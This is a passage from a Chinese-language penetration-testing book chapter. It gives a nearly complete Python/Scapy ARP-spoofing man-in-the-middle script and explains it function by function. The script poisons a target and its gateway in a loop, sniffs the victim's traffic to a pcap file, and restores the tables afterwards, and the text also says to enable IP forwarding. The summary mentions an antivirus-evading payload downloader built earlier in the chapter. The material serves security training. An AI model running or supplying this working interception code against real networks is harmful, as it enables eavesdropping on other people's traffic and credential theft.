   send(ARP(op = 2, psrc = gateway, pdst = target, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = gwmac_addr), count = 5)
```

```
   send(ARP(op = 2, psrc = target, pdst = gateway, hwdst = "ff:ff:ff:ff:ff:ff", hwsrc = targetmac_addr), count = 5)
```

```
   sys.exit(0)
```

```
def macgrab(ip_addr):
```

```
   responses, unanswered = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = ip_addr), timeout = 2, retry = 10)
```

```
   for s,r in responses:
```

```
     return r[Ether].src
```

```
     return None
```

```
def poison_target(gateway, gwmac_addr, target, targetmac_addr):
```

```
   poison_target = ARP()
```

```
   poison_target.op = 2
```

```
   poison_target.psrc = gateway
```

```
   poison_target.pdst = target
```

```
   poison_target.hwdst = targetmac_addr
```

```
   poison_gateway = ARP()
```

```
   poison_gateway.op = 2
```

```
   poison_gateway.psrc = target
```

```
   poison_gateway.pdst = gateway
```

```
   poison_gateway.hwdst = gwmac_addr
```

```
   print("\nMitM ARP attack started.")
```

```
   while True:
```

```
     try:
```

```
       send(poison_target)
```

```
       send(poison_gateway)
```

```
       time.sleep(2)
```

```
     except KeyboardInterrupt:
```

```
       restore(gateway, gwmac_addr, target, targetmac_addr)
```

```
   return
```

这里有很多信息，所以让我们更详细地检查这些函数，具体如下：

+   `def restore()` 不是我们攻击网络的方式——它是用来清理我们的“烂摊子”。记住，ARP 欺骗会修改网络上其他节点的第 2 层到第 3 层的映射。如果你这么做然后断开连接，那些表会保持不变，直到 ARP 消息指示其他内容。我们使用 Scapy 的 `send(ARP())` 函数来恢复健康的表。

+   `def macgrab()` 会接受一个 IP 地址作为参数，然后使用 Scapy 的 `srp()` 函数创建 ARP 消息并记录响应。`macgrab()` 使用 `[Ether]` 读取**媒体访问控制**（**MAC**）地址，并返回该值。

+   `def poison_target()`是我们实施欺骗的函数。我们为`man-in-the-middle`（**MITM**）攻击的两个端点：`poison_gateway`和`poison_target`准备了 Scapy 的`send()`函数参数。尽管这些多行代码占用了更多页面空间，但我们的脚本非常易读，我们可以看到构建的数据包的结构：`poison_target`和`poison_gateway`都被设置为`ARP()`，且`op = 2`—换句话说，我们正在发送无请求的 ARP 回复。当目标的**psrc 设置**被设为`gateway`时，诱饵交换就显现出来，网关的`psrc`设置则设为`target`（`pdst`设置相反）。我们熟悉的`while True`循环就是发送数据包的地方。我们看到信号处理出现在`except KeyboardInterrupt`，它会调用`restore()`，以便清理工作。

这很激动人心，但我们甚至还没有开始；我们已经定义了这些函数，但还没有任何地方调用它们。接下来让我们进行一些繁重的工作，具体如下：

```
gwmac_addr = macgrab(gateway) 
```

```
targetmac_addr = macgrab(target) 
```

```
if gwmac_addr is None: 
```

```
   print("\nUnable to retrieve gateway MAC address. Are you connected?") 
```

```
   sys.exit(0) 
```

```
else: 
```

```
   print("\nGateway IP address: %s\nGateway MAC address: %s\n" % (gateway, gwmac_addr)) 
```

```
if targetmac_addr is None: 
```

```
   print("\nUnable to retrieve target MAC address. Are you connected?") 
```

```
   sys.exit(0) 
```

```
else: 
```

```
   print("\nTarget IP address: %s\nTarget MAC address: %s\n" % (target, targetmac_addr)) 
```

```
mitm_thread = threading.Thread(target = poison_target, args = (gateway, gwmac_addr, target, targetmac_addr)) 
```

```
mitm_thread.start() 
```

```
try: 
```

```
   print("\nMitM sniffing started. Total packets to be sniffed: %d" % packets) 
```

```
   bpf = "ip host %s" % target 
```

```
   cap_packets = sniff(count=packets, filter=bpf, iface=interface) 
```

```
   wrpcap('arpMITMresults.pcap', cap_packets) 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
except KeyboardInterrupt: 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
   sys.exit(0)
```

下面是发生的事情：

+   我们首先通过调用`macgrab()`来获取网关和目标 IP 地址。回想一下，`macgrab()`返回的是 MAC 地址，然后分别存储为`gwmac_addr`和`targetmac_addr`。

+   可能的返回值是`None`，所以我们的`if...else`语句会处理这种情况：如果返回值不是`None`，则将值打印到屏幕上，否则会发出警告，并调用`sys.exit()`。

+   `threading.Thread()`类将`poison_target()`定义为我们的目标函数，并将目标和网关信息作为参数传递。

+   `mitm_thread.start()` 启动了攻击，但它是作为一个线程运行的。程序继续执行`try`语句。

+   这里是我们设置嗅探器的地方。这是一个有趣的用例，展示了如何在 Python 中使用 Scapy；请注意，我们将过滤器构造为一个名为`bpf`的字符串变量。调用`sniff()`时，返回的数据会以`cap_packets`的形式存储在内存中。`wrpcap()`会创建一个`pcap`格式的数据包捕获文件。注意，`sniff()`也传递了数据包数量作为参数，那么当这个数字用完时会发生什么？代码会继续调用`restore()`。如果在此之前收到*Ctrl* + *C*的输入，`restore()`仍然会被调用。

正如你所看到的，这个演示中写的`print`语句是基础的。我鼓励你让它看起来更漂亮一些。

别忘了进行路由

确保你的系统已经设置为转发数据包，使用命令`sysctl net.ipv4.ip_forward=1`。

使用 Wireshark 或任何数据包嗅探器来验证成功。你是从底层写这段代码的，因此知道目标的第 2 层和第 3 层地址只是战斗的一部分——你还需要确保代码正确地处理了这些地址。对于 ARP 来说，交换源和目的地址是很容易的！

一旦我的会话完成，我可以快速验证我的数据包捕获是否按预期保存。更好的是，打开 Wireshark 查看你的嗅探器捕获了什么。这是它找到的内容：


图 8.13 – 我们准备好的 pcap 文件，待复查

这非常简单，数据包捕获自己就完成了！我把如何将这些片段融入你自己的定制工具集交给你去探索。

# 总结

在本章中，我们进行了一个针对渗透测试人员的 Python 速成课程。我们从一些 Python 基础知识和选择编辑器环境开始。基于过去的编程经验和本书中的内容，我们逐行编写了几个有助于渗透测试人员的工具——一个简单的客户端、一个简单的服务器，甚至一个几乎完全无法被传统杀毒软件检测到的有效载荷下载器。为了结束本章，我们探索了使用 Scapy 进行低级网络操作，将其作为我们的程序的源库导入。

现在我们已经打下了 Python 的坚实基础，接下来的章节将重点介绍 Windows 平台下强大自动化和脚本编写的工具：PowerShell。

# 问题

回答以下问题以测试你对本章的理解：

1.  如何将 Python 模块导入到你的代码中使用？

1.  `Socket`的使用风险如何影响你脚本的可移植性？

1.  如果没有`#!/usr/bin/python3`作为代码的第一行，无法运行 Python 脚本。（正确 | 错误）

1.  有哪些两种方法可以停止`while True`循环？

1.  PyInstaller 可以在任何平台上运行以生成 Windows EXE 文件。（正确 | 错误）

1.  在 Python 3 中，**线程**变成了 _________。

1.  如果没有定义`restore()`函数，ARP 攻击将完全失败。（正确 | 错误）

# 进一步阅读

关于本章所涉及的主题的更多信息，请查看以下资源：

+   更多关于 Python IDE 的信息：[`wiki.python.org/moin/IntegratedDevelopmentEnvironments`](https://wiki.python.org/moin/IntegratedDevelopmentEnvironments)

+   在 Windows 上安装 Python（以访问`pip`和 PyInstaller）：[`www.python.org/downloads/windows/`](https://www.python.org/downloads/windows/)

+   更多关于 Mandiant Commando VM 的信息：[`www.mandiant.com/resources/commando-vm-windows-offensive-distribution`](https://www.mandiant.com/resources/commando-vm-windows-offensive-distribution)
